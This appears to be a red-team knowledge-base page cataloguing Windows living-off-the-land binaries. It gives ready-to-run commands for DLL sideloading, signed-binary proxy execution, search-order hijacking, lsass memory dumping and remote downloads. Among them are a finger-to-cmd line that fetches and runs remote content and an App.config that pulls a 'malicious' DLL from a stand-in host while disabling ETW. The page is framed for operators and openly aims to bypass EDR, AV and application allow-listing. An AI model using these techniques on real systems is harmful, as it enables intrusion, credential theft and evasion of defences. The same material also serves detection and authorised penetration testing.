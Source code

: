 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# LOLBins ([`Signed Binary Proxy Execution` TTP](TTP/T1218_Signed_Binary_Proxy_Execution/T1218.md))
### Tags
<details><summary>Tags (Click to expand)</summary><p>

Environment

		#@Windows #@microsoft

Context

		#@lolbin #@lolbas #@lolbins #@lol #@download #@execute #@execution #@exec #@bypass #@EDR #@av #@arbitrary 

Tools

		#@procmon #@process #@monitor #@onedrive #@teams #@certoc.exe #@wuauclt #@format.com #@format #@msra.exe #@msra #@certutil #@control.exe #@CMSTP.exe #@Mshta #@Msiexec #@Odbcconf #@Regsvcs-Regasm #@regsvcs #@Regasm #@Regsvr32 #@Rundll32 #@Verclsid #@PubPrn #@fvenotify #@fvenotify.exe #@finger.exe #@finger #@Symantec #@SSHelper #@createdump #@createdump.exe #@procdump 


</p></details>

### References
* LOLBins Project -<br />[https://lolbas-project.github.io/](https://lolbas-project.github.io/)
	* LOLBINs or "Living off the land binaries" are used to get execution/downloads/TTPs on a local system. Two famous LOLbins are MSBuild and CSC which allow operators to get execution on the local system by executing raw source code (C#).

### Examples

* [Search Order Abuse Guide](Testaments_and_Books/Redvelations/Windows/002-5_Search_Order_Abuse.md)
* Compile Shellcode on target
	* MSBuild ([Windows Reverse Shells Guide](Testaments_and_Books/Redvelations/Windows/004-1_Windows_Reverse_Shells.md))
* Arbitrary DLLs
	* <details><summary>onedrive (Click to expand)</summary><p>
		* Overview, Requirements
			* THIS WILL DELETE `ONEDRIVE.EXE`
		* Process
			1. Create a backup copy of the victim's onedrive.exe
			1. Drop MSASN1.dll into `C:\Users\<user>\AppData\Local\Microsoft\OneDrive`
	* <details><summary>wuauclt (Click to expand)</summary><p>
		* <details><summary>Overview (Click to expand)</summary><p>
			* wuauclt.exe is a Microsoft signed binary that requires a DLL with specific exported functions, specifically: 
		* <details><summary>Requirements (Click to expand)</summary><p>
			* DLL with the exported functions:
				1. `DownloadManager`
				1. `DataStore`
		* Examples
			* Splinternet compatible (See also: Requirements)

					C:\Windows\System32\wuauclt.exe /UpdateDeploymentProvider C:\users\user1\Desktop\localdll.dll /RunHandlerComServer
	* <details><summary>certoc.exe (Click to expand)</summary><p>
		* <details><summary>References (Click to expand)</summary><p>
			* [https://twitter.com/sblmsrsn/status/1445758411803480072](https://twitter.com/sblmsrsn/status/1445758411803480072)
		* <details><summary>Overview (Click to expand)</summary><p>
			* Does not appear to require elevated privileges
			* Might mainly be a lolbin for Server OS variants
			* It looks like an alternative lolbin to regsvr32
		* Examples

				C:\Windows\System32\certoc.exe -LoadDLL <DLLName>
	* <details><summary>format.com utility (Click to expand)</summary><p>
		* <details><summary>References (Click to expand)</summary><p>
			* [https://twitter.com/0gtweet/status/1477925112561209344](https://twitter.com/0gtweet/status/1477925112561209344)
			* [https://twitter.com/wdormann/status/1478011052130459653](https://twitter.com/wdormann/status/1478011052130459653)
		* <details><summary>Overview (Click to expand)</summary><p>
			* `/FS:FILESYSTEM` parameter - the resulting process will try to load ("U"+FILESYSTEM).DLL using the default search path.
			* Not a COM file (name may be maintained for something like backward-compatibility)
			* Example Search Order
				* `C:\Windows\System32\FILE.DLL`
				* `C:\Windows\System\FILE.DLL`
				* `C:\Window\FILE.DLL`
				* `C:\tmp\FILE.DLL`
		* Examples
			* Example 1: Basic use

					format a: /fs:calc
			* Example 2: Bypass the "U" requirement (specify arbitrary DLLs)

					format a: /fs:\..\calc
* Arbitrary exe
	* <details><summary>msra.exe (Click to expand)</summary><p>
		* Overview, Requirements
			* `x64` only; attack takes advantage of the arch switching that happens with this particular lolbin
			* LOLBIN (msra.exe) is deleted after execution
		* Process
			1. transfer malicious exe called `msra.exe` to target
			2. place in user-controlled folder
			3. create folder named `system32`
			4. move malicious `msra.exe` to newly created system32 folder
			5. Set windir to parent folder of the new system32 folder

					cmd /c set windir=<parent folder of system32>
			6. Execute the msra.exe

					cmd /c c:\windows\syswow64\msra.exe
	* <details><summary>.NET (Click to expand)</summary><p>
		* <details><summary>Example 1 (Click to expand)</summary><p>
			* <details><summary>References (Click to expand)</summary><p>
				* GIST -<br />[https://github.com/TheWover/GhostLoader/blob/master/uevmonitor.cs](https://github.com/TheWover/GhostLoader/blob/master/uevmonitor.cs)
				* PentestLabs -<br />[https://pentestlaboratories.com/2020/05/26/appdomainmanager-injection-and-detection/](https://pentestlaboratories.com/2020/05/26/appdomainmanager-injection-and-detection/)
			* <details><summary>Overview (Click to expand)</summary><p>
				* .
			* Process
				1. Copy a `.NET` Binary into a user controlled directory
					* `%AppProfile%` 
					* `C:\Users\Public\Downloads`
				1. Compile

						C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /target:library /out:uevmonitor.dll type.cs
						set APPDOMAIN_MANAGER_ASM=uevmonitor, Version=0.0.0.0, Culture=neutral, PublicKeyToken=null
						set APPDOMAIN_MANAGER_TYPE=MyAppDomainManager
						set COMPLUS_Version=v4.0.30319
				1. Write out the `BinaryName.exe.config` file
					* [Example](Testaments_and_Books/Redvelations/Windows/Payloads/Arbitrary_dotnet.exe.config)
				1. Write out a DLL file compiled specifically for getting a call back
					* [Example](Testaments_and_Books/Redvelations/Windows/Payloads/)
	* <details><summary>mpiexec.exe (Click to expand)</summary><p>
		* <details><summary>References (Click to expand)</summary><p>
			* [https://twitter.com/mrd0x/status/1465058133303246867](https://twitter.com/mrd0x/status/1465058133303246867)
		* <details><summary>Overview (Click to expand)</summary><p>
			* Early tests apear to not have this binary available by default on a Windows Workstation
		* Examples

				mpiexec.exe -n 1 c:\path\to\binary.exe
	* <details><summary>Search Order Abuse (Click to expand)</summary><p>
		* `Workfolders.exe` (a signed Microsoft application) 
			* Looks for `control.exe` ([`Signed Binary Proxy Execution - Control Panel` TTP](TTP/T1218_Signed_Binary_Proxy_Execution/002_Control_Panel/T1218.002.md))
			* can be called from anywhere, it’s in system32
		* `iediagcmd.exe`
			* Looks for
				* `ipconfig.exe`
				* `route.exe`
				* `netsh.exe`
				* `makecab.exe`
			* Requires full path for calling
				* Win10: `C:\Program Files\Internet Explorer\iediagcmd.exe`
			* Bypass need for CMD
				1. Create LNK File
				1. Specify the "starts in" directory to the folder containing the exe/dll
				* "Quite handy on a lockdown job to bypass awl"
		* 3rd party apps
			* Keybase for Windows
				* Looks for `cmd.exe` (and others), this resides in C:\User\Username\Local\Keybase\Gui\keybase.exe 
			* Signal Messenger (Windows Desktop)
				* Looks for `wmic.exe`
			* Slack 
				* looks for `reg.exe` (silently fixed)
		* chcp.com ([TTP](TTP/T1218_Signed_Binary_Proxy_Execution/T1218_chcp.com.md))

* Execution
	* <details><summary>wlrmdr (Click to expand)</summary><p>
		* <details><summary>References (Click to expand)</summary><p>
			* [https://twitter.com/falsneg/status/1461625526640992260](https://twitter.com/falsneg/status/1461625526640992260)
		* Examples

				wlrmdr -s 0 -f 0 -t 0 -m 0 -a 11 -u calc.exe
	* <details><summary>tttracer.exe (Click to expand)</summary><p>
		* <details><summary>References (Click to expand)</summary><p>
			* [https://twitter.com/0gtweet/status/1397127604281479168](https://twitter.com/0gtweet/status/1397127604281479168)
		* Parameters
			* `-DeleteTraceFilesOnExit` - Less Verbose
		* Examples
			* Example 1

					tttracer.exe -launch calc.exe
	* <details><summary>ttdinject.exe (Click to expand)</summary><p>
		* <details><summary>References (Click to expand)</summary><p>
			* [https://twitter.com/0gtweet/status/1397199297314267138](https://twitter.com/0gtweet/status/1397199297314267138)
		* Examples
			* Example 1

					ttdinject.exe /injectmode LoaderForEmulator /launch calc.exe
	* <details><summary>unregmp2.exe (Click to expand)</summary><p>
		* <details><summary>References (Click to expand)</summary><p>
			* [https://twitter.com/notwhickey/status/1466588365336293385](https://twitter.com/notwhickey/status/1466588365336293385)
		* <details><summary>Overview (Click to expand)</summary><p>
			* Has been around for a while and likely caught by EDR.
		* Examples
			* Example 1: pop a calc

					rmdir %temp%\lolbin /s /q 2>nul & mkdir "%temp%\lolbin\Windows Media Player" & copy C:\Windows\System32\calc.exe "%temp%\lolbin\Windows Media Player\wmpnscfg.exe" >nul && cmd /V /C "set "ProgramW6432=%temp%\lolbin" && unregmp2.exe /HideWMP"
	* <details><summary>dvdplay.exe (Click to expand)</summary><p>
		* <details><summary>References (Click to expand)</summary><p>
			* [https://twitter.com/0gtweet/status/1414904440696496128](https://twitter.com/0gtweet/status/1414904440696496128)
		* <details><summary>Overview/Notes (Click to expand)</summary><p>
			* dvdplay.exe actually does three simple things:
				1. reads the registry with RegGetValue()
				2. finds the exe from #1 using SearchPath()
				3. creates new process using CreateProcess(), exe from #2, and "/device:dvd" parameter.
				* Default registry value: `REG_EXPAND_SZ`
		* Examples
			* Example 1

					set ProgramFiles(x86)=c:\users\vx\test
					mkdir 'Windows Media Player'
					move bad.exe 'Windows Media Player'\bad.exe
					dvdplay
				* Example Output

						9:32:52.2087664 AM dvdplay.exe 23968 CreateFile C:\users\alex\desktop\cmdtest\Windows Media Player\wmplayer.exe PATH NOT FOUND Desired Access: Read Attributes, Disposition: Open, Options: Open Reparse Point, Attributes: n/a, ShareMode: Read, Write, Delete, AllocationSize: n/a
			* Example 2

					kali@kali~$ ./cog.sh exe payload.bin wmplayer.exe
					kali@kali~$ zip -r 'Windows Media Player.zip' wmplayer.exe


					WINDOWS
					<transfer .zip to target, using cmd.exe for following commands>
					powershell -c Expand-Archive 'Windows Media Player.zip'
					set ProgramFiles(x86)=<current dir>
					dvdplay
	* control.exe ([`Signed Binary Proxy Execution - Control Panel` TTP](TTP/T1218_Signed_Binary_Proxy_Execution/002_Control_Panel/T1218.002.md))
	* CMSTP.exe ([`Signed Binary Proxy Execution - CMSTP` TTP](TTP/T1218_Signed_Binary_Proxy_Execution/003_CMSTP/T1218.003.md))
	* Mshta ([`Signed Binary Proxy Execution - Mshta` TTP](TTP/T1218_Signed_Binary_Proxy_Execution/005_Mshta/T1218.005.md))
	* Msiexec ([`Signed Binary Proxy Execution - Msiexec` TTP](TTP/T1218_Signed_Binary_Proxy_Execution/007_Msiexec/T1218.007.md))
	* Odbcconf ([`Signed Binary Proxy Execution - Odbcconf` TTP](TTP/T1218_Signed_Binary_Proxy_Execution/008_Odbcconf/T1218.008.md))
	* Regsvcs-Regasm ([`Signed Binary Proxy Execution - Regsvcs-Regasm` TTP](TTP/T1218_Signed_Binary_Proxy_Execution/009_Regsvcs-Regasm/T1218.009.md))
	* Regsvr32 ([`Signed Binary Proxy Execution - Regsvr32` TTP](TTP/T1218_Signed_Binary_Proxy_Execution/010_Regsvr32/T1218.010.md))
	* Rundll32 ([`Signed Binary Proxy Execution - Rundll32` TTP](TTP/T1218_Signed_Binary_Proxy_Execution/011_Rundll32/T1218.011.md))
	* Verclsid ([`Signed Binary Proxy Execution - Verclsid` TTP](TTP/T1218_Signed_Binary_Proxy_Execution/012_Verclsid/T1218.012.md))
	* PubPrn ([`Signed Script Proxy Execution - PubPrn` TTP](TTP/T1216_Signed_Script_Proxy_Execution/001_PubPrn/T1216.001.md))
	* Compiled HTML File ([`Signed Binary Proxy Execution - Compiled HTML File` TTP](TTP/T1218_Signed_Binary_Proxy_Execution/001_Compiled_HTML_File/T1218.001.md))
* Forced Authentication
	* fvenotify.exe ([AD Relay/Capture Guide](Testaments_and_Books/Redvelations/Active_Directory/003-1_AD_Capture_and_Relay_Attacks.md)), ([`Forced Authentication` TTP](TTP/T1187_Forced_Authentication/T1187.md))
* Download
	* certutil.exe ([`Signed Binary Poxy Execution - CertUtil` TTP](TTP/T1218_Signed_Binary_Proxy_Execution/T1218_certutil.md))
	* <details><summary>finger.exe (Click to expand)</summary><p>
		* <details><summary>References (Click to expand)</summary><p>
			* [https://twitter.com/DissectMalware/status/997340270273409024](https://twitter.com/DissectMalware/status/997340270273409024)
			* [https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/ff961508(v=ws.11)](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/ff961508(v=ws.11)
		* Example

				finger user@example.host.com | more +2 | cmd
* lsass dump
	* <details><summary>createdump.exe (Click to expand)</summary><p>
		* <details><summary>References (Click to expand)</summary><p>
			* [https://twitter.com/bopin2020/status/1366400799199272960](https://twitter.com/bopin2020/status/1366400799199272960)
		* <details><summary>Requirements (Click to expand)</summary><p>
			* CONFIRM: `.NET5`
			* CONFIRM: SYSTEM (not admin)
		* Examples
			* Example 1

					C:\Program Files\dotnet\shared\http://Microsoft.NETCore.App\5.x.x\createdump.exe
	* <details><summary>ProcDump (Click to expand)</summary><p>
		* <details><summary>References (Click to expand)</summary><p>
			* [https://twitter.com/ajpc500/status/1448588362382778372](https://twitter.com/ajpc500/status/1448588362382778372)
		* `-md` flag of procdump launches arbitrary DLLs, one of two ways
			* `DLL_PROCESS_ATTACH` - msfvenom calc example
			* Exporting a `MiniDumpCallbackRoutine` function - also produces a dump file (beacon example)
* <details><summary>Global Assembly Cache Hijack (Click to expand)</summary><p>
	* <details><summary>References (Click to expand)</summary><p>
		* [https://bohops.com/2021/05/30/abusing-and-detecting-lolbin-usage-of-net-development-mode-features/](https://bohops.com/2021/05/30/abusing-and-detecting-lolbin-usage-of-net-development-mode-features/)
		* There is BLS Project that is tracking different .NET Binaries and targeted DLL names.
	* <details><summary>Requirements (Click to expand)</summary><p>
		* Configuration file (Sample below) in the same directory as the .NET Binary we want to use (similar to the attack above)
	* Process
		1. Create malicious file
			* [Example Config](Testaments_and_Books/Redvelations/Windows/Payloads/Global_Assembly_Cache.config)
		1. Set environment variable (Environmental Variable Set: devpath)
* <details><summary>LOLBINs not installed by default (Click to expand)</summary><p>
	* <details><summary>Symantec SSHelper (Click to expand)</summary><p>
		* <details><summary>References (Click to expand)</summary><p>
			* [https://nasbench.medium.com/symantec-endpoint-protection-meets-com-using-symantec-sshelper-as-a-lolbin-40d515a121ce](https://nasbench.medium.com/symantec-endpoint-protection-meets-com-using-symantec-sshelper-as-a-lolbin-40d515a121ce)
		* Parameters
			* `file_path` that indicates the location of the executable to be run.
			* `params` which represents the parameters to be passed to the file that is going to be executed.
			* `bshow` is a boolean representing if we want to show a window or not.
		* Examples
			* Example 1: "Pop calc"

					$(New-Object -com "Symantec.SSHelper").Run(0, "calc", "", $False, 0, $True);
			* Example 2: "Pop calc"

					$(New-Object -com "Symantec.SSHelper").RunEx(0, "calc", "", $True, 0, $True, $True);

### Needs Research/Testing
* <details><summary>Needs Research (Click to expand)</summary><p>
	* <details><summary>File Share + Alternate Data Stream (Click to expand)</summary><p>
		* <details><summary>References (Click to expand)</summary><p>
			* [https://twitter.com/aaaddress1/status/1442380993172701186](https://twitter.com/aaaddress1/status/1442380993172701186)
			* [https://docs.microsoft.com/en-us/sysinternals/downloads/streams](https://docs.microsoft.com/en-us/sysinternals/downloads/streams)
		* Examples
			* Example 1

					echo > c:\users\public\downloads\file.txt
					type badfile h:\badfile.dll > c:\users\public\downloads\file.txt:calc
	    			rundll32 "c:\users\public\downloads\file.txt:calc",DllMain
	* <details><summary>DEVPATH (Click to expand)</summary><p>
		* <details><summary>References (Click to expand)</summary><p>
			* [https://bohops.com/2021/05/30/abusing-and-detecting-lolbin-usage-of-net-development-mode-features/](https://bohops.com/2021/05/30/abusing-and-detecting-lolbin-usage-of-net-development-mode-features/)
			* [https://bohops.com/2021/03/16/investigating-net-clr-usage-log-tampering-techniques-for-edr-evasion/](https://bohops.com/2021/03/16/investigating-net-clr-usage-log-tampering-techniques-for-edr-evasion/)
			* [https://docs.microsoft.com/en-us/dotnet/framework/configure-apps/how-to-locate-assemblies-by-using-devpath](https://docs.microsoft.com/en-us/dotnet/framework/configure-apps/how-to-locate-assemblies-by-using-devpath)
		* Process Overview
			1. Prepare a configuration file following this general format

					<configuration>
					  <runtime>
					    <developmentMode developerInstallation="true"/>
					  </runtime>
					</configuration>
			1. Set and environment variable `DEVPATH` to a value that points to a file system directory path
				* When set, the CLR attempts to "resolve" the target assembly dependencies in the path before locating the "unfound" assemblies in the GAC (which is the default behavior).
		* Examples/Commands
			* Example 1
				* UevAppMonitor.exe
					* <details><summary>Overview (Click to expand)</summary><p>
						* Has an application configuration filed located in the System32 directory (`UevAppMonitor.exe.config`)
					* Modify a copy of the configuration file to include the lines described in the above overview.
						* Normal (`type UevAppMonitor.exe.config`)

								<?xml version="1.0" encoding="utf-8" ?>
								  <configuration>
								    <startup>
								      <supportedRuntime version="v4.0" />
								    </startup>
								  </configuration>
						* Modified

								<?xml version="1.0" encoding="utf-8" ?>
								  <configuration>
								    <startup>
								      <supportedRuntime version="v4.0" />
								    </startup>
								    <runtime>
								      <developmentMode developerInstallation="true"/>
								    </runtime>
								  </configuration>
					* Store in a temporary directory.
	* <details><summary>SystemRoot Technique (Click to expand)</summary><p>
		* <details><summary>References (Click to expand)</summary><p>
			* [https://twitter.com/0gtweet/status/1401618571143303169](https://twitter.com/0gtweet/status/1401618571143303169)
		* Examples/Commands
			* Example 1

					set SystemRoot=c:\temp\customshell
					dir %SystemRoot%\System32
					CustomShellHost.exe
	* <details><summary>Potential Download LOLBIN 1 (Click to expand)</summary><p>
		* <details><summary>References (Click to expand)</summary><p>
			* [https://twitter.com/JohnLaTwC/status/1411754075398443009](https://twitter.com/JohnLaTwC/status/1411754075398443009)
			* [https://www.sentinelone.com/labs/purple-fox-ek-new-cves-steganography-and-virtualization-added-to-attack-flow/](https://www.sentinelone.com/labs/purple-fox-ek-new-cves-steganography-and-virtualization-added-to-attack-flow/)
		* <details><summary>Overview (Click to expand)</summary><p>
			* Figure out what object System.Drawing is, we could have  another LOLBIN for a download
			* Search for `.Assembly.GetType` in command line data. You might find a malicious PowerShell command line attempting an AMSI bypass
	* <details><summary>ImageView_PrintTo (Click to expand)</summary><p>
		* <details><summary>References (Click to expand)</summary><p>
			* [https://twitter.com/Hexacorn/status/1469083453325037575](https://twitter.com/Hexacorn/status/1469083453325037575)
		* <details><summary>Overview (Click to expand)</summary><p>
			* `ImageView_PrintTo` insecurely calls `LoadLibraryW` for `UsePPWForPrintTo`
		* Process
			1. create dummy file (foo)
			1. copy rundll32.exe to c:\test\rundll32.exe
			1. copy DLL payload to c:\test\photowiz.dll
			1. run rundll32

					rundll32 c:\WINDOWS\system32\shimgvw.dll,ImageView_PrintTo c:\test\foo
				* ImageView_PrintToA & ImageView_PrintToW should work too (W needs Unicode tho)
	* <details><summary>Remote Downloading DLL (Click to expand)</summary><p>
		* <details><summary>References (Click to expand)</summary><p>
			* [https://twitter.com/MrUn1k0d3r/status/1481641789555572737](https://twitter.com/MrUn1k0d3r/status/1481641789555572737)
		* <details><summary>Requirements (Click to expand)</summary><p>
			* A strong signed binary (certificate signing)
		* Here is the App.config requirement.

				<configuration>
				     <runtime>
				          <assemblyBinding xmlns="urn:schemas-microsoft-com:asm.v1">
				               <dependentAssembly>
				                    <assemblyIdentitiy name="malicious" publicKeyToken="ff4d601c1484a445" culture="neutral" />
				                    <codeBase version="0.0.0.0" href="https://some.tld.com/getme.dll"/>
				               </dependentAssembly>
				          </assemblyBinding>
				          <etwEnable enabled="false">
				          <appDomainManagerAssembly value ="malicious, Version=0.0.0.0, Culture=neutral, PublicKeyToken=ff4d601c1484a445" />
				          <AppDomainManagerType value="Updater" />
				     </runtime>
				</configuration>
	* MSXSL ([`XSL Script Processing` TTP](TTP/T1220_XSL_Script_Processing/T1220.md))
		* <details><summary>References (Click to expand)</summary><p>
			* [https://lolbas-project.github.io/lolbas/OtherMSBinaries/Msxsl/](https://lolbas-project.github.io/lolbas/OtherMSBinaries/Msxsl/)
		* Examples
			* Example 1: Run COM Scriptlet code within the script.xsl file (local)

					msxsl.exe customers.xml script.xsl




